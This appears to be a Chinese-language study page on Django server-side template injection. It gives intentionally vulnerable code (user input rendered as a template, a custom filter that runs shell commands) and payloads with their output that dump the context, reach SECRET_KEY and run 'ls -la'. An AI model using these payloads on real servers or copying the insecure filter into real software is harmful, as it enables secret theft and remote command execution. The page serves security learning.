 # Python Django

## Installation

```sh
$ pip install django
```

## Vulnerable Code I

```python
import traceback
import django
from django.conf import settings
TEMPLATES = [
    {
        'BACKEND': 'django.template.backends.django.DjangoTemplates',
        'DIRS': [],
    }
]
_setting = dict(TEMPLATES=TEMPLATES, SECRET_KEY='Flag{w0W_3sTl_1n_@jango_sYi11_aLiVe}')
settings.configure(**_setting)
django.setup()
from django.template import Template, Context
while True:
    temp = raw_input("Try to get Key\n> ").strip()
    try:
        s = Template(temp).render(Context(dict(settings=settings)))
    except:
        print(traceback.format_exc())
    else:
        print(s)
```

## Exploit I

沒辦法直接RCE, 只能看看當前 context 有什麼變數

statement 限制:

1. 不能有()
2. 不能有[]
3. 變數不能以\_開頭 ex. a.\_b (X)

```python
{% debug %}
->  {'product': {'name': 'Sarcastic 9 Ball', 'price': '$55.21', 'stock': 26}, 'settings': <LazySettings "None">}{'False': False, 'None': None, 'True': True} {'Cookie': <module 'Cookie' from '/usr/lib/python2.7/Cookie.pyc'>, …}
其實只有 product 跟 settings 可以用, 第三區的模組(Cookie, ...)貌似都不是變數
settings 猜測是 django 的 settings.py, 因此有機會拿到 settings.SECRET_KEY

拿到 SECRET_KEY 之後如果伺服器剛好是設定

1. SESSION_ENGINE = 'django.contrib.sessions.backends.signed_cookies'
2. SESSION_SERIALIZER = 'django.contrib.sessions.serializers.PickleSerializer'

就有機會用反序列化 RCE
- https://rickgray.me/2015/09/12/django-command-execution-analysis/
```

## Vulnerable Code II

run.py
```python
TEMPLATES = [
    {
        'BACKEND': 'django.template.backends.django.DjangoTemplates',
        'DIRS': [],
        'OPTIONS': {
            'builtins': [
                'vuln_code',
            ]
        }
    }
]
```

vuln\_code.py
```python
import subprocess
from django import template

register = template.Library()

@register.filter
def dexec(string):
    p = subprocess.Popen(string, shell=True, stdout=-1)
    return p.communicate()[0]
```

## Exploit II

平常應該遇不到這種配置, 自定義的 filter 存在執行 command 的能力.
不過也不是沒有可能, 也許會有人自定義 filter 執行查詢功能, 不小心開啟了 Command Injection 之類

```python
{{ "ls -la"|dexec }}
total 24
drwxr-xr-x  2 kali kali 4096 Nov  2 12:18 .
drwxr-xr-x 25 kali kali 4096 Nov  2 12:18 ..
-rw-r--r--  1 kali kali 1181 Nov  2 12:18 run.py
-rw-r--r--  1 kali kali  200 Nov  2 12:16 vuln_code.py
-rw-r--r--  1 kali kali  523 Nov  2 12:18 vuln_code.pyc
```

